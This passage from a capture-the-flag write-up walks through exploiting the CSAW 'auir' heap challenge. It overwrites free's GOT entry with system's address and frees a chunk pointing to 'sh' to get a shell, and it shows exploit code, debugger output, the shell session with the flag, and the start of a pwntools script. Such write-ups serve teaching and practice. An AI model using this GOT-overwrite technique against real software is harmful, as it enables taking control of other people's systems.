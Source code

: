 
Brilliant! Let's pwn this binary once and for all.


### _Pwning Time_

* The `edit` function receives an index as input and then picks the corresponding entry from the global array in order to overwrite its content with our desired input. I picked `free` as the victim GOT entry because it receives one argument, like `system`.

* When we're asked to de-allocate a chunk, we provide an index once again and `free` will be called (or would be called since we'll overwrite it `system`'s address) with an address from the global array as an argument.

* Since we overwrote the 1st entry with `system`'s address and the 2nd one with `sh`'s address, once de-allocation takes place and we provide `1` as the index (arrays are indexed from 0), `system` will take over control and execute whatever command is at the address which was found in the global array. There's our shell!

```python
# free => system
edit(0, 8, p64(system))
```

```makefile
gef➤  x/gx 0x0000000000605060
0x605060:   0x00007ffff71b1390
gef➤  x 0x00007ffff71b1390
0x7ffff71b1390 <__libc_system>: 0xfa86e90b74ff8548
```

Voila! `free`'s GOT entry officially points to `system`'s address! Let's bring this flag home!

```python
# call system with the 2nd entry as argument, which is binsh
free(1)
```

```makefile
[*] Leak:        0x7fa077b3fb78
[*] Libc:        0x7fa07777b000
[*] system:      0x7fa0777c0390
[*] Switching to interactive mode
[*] BREAKING....
$ id
uid=1000(auir) gid=1000(auir) groups=1000(auir)
$ ls
auir
flag
$ cat flag
flag{W4rr10rs!_A1ur_4wa1ts_y0u!_M4rch_f0rth_and_t4k3_1t!}
```
### _Exploit_

```python
from pwn import *

'''
HOST = pwn.chal.csaw.io
PORT = 7713
PoC:  https://asciinema.org/a/IARN4KoGyVYbDai3Je3dXJM95
Flag: flag{W4rr10rs!_A1ur_4wa1ts_y0u!_M4rch_f0rth_and_t4k3_1t!}
'''

free_got = 0x605060
sys_off  = 0x45390
sh_off   = 0x18cd17
# bss pointer to use for the fastbin attack
bss      = 0x6052ed
```